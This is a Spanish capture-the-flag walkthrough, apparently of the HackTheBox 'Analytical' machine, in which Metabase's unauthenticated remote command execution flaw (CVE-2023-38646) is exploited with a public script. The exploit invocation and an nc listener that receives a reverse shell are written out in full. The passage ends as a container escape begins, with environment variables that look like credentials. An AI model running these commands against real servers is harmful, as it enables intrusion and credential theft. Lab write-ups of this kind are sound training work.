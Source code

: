 ![login](/analytics/login.png)

> Metabase es la herramienta de análisis empresarial o business inteligente que se integra con nuestro software de gestión empresarial y que permite el análisis de la información de tu empresa. 
{: .prompt-info }

Por lo que se puede buscar algún **exploit** reciente para intentar ganar acceso a la aplicación, y Lo primero que aparece es la posibilidad de ejecutar comandos sin necesidad de estar autenticado.

![exploit](/analytics/exploit.png)

## Explotación

La descripción del **exploit** desarrollado por nickswink dice lo siguiente :

[CVE-2023-38646-exploit](https://github.com/nickswink/CVE-2023-38646#cve-2023-38646-exploit)

"This vulnerability, designated as CVE-2023–38646, allowed attackers to execute arbitrary commands on the server without requiring any authentication."

El método de ejecución es el siguiente:

```bash
python3 exploit.py <url> <local-ip> <local-port>
```
{: .nolineno}

```bash
python3 exploit.py http://data.analytical.htb/ 10.10.15.135 4444
```
{: .nolineno}

Y poniéndose a la escucha con `nc`

```bash
nc -lvp 4444
```
Se puede ganar una **Shell  Reversa**

```bash
b3190b9a602c:/$ whoami
whoami
metabase
b3190b9a602c:/$ hostname
hostname
b3190b9a602c
b3190b9a602c:/$ 
```
{: .nolineno}

Pero parece que se está dentro de un contenedor, por lo que se quiere escapar de él.


## Doker breakout

Al revisar las variables de entorno, se puede ver que existen algunas que parecen ser credenciales.
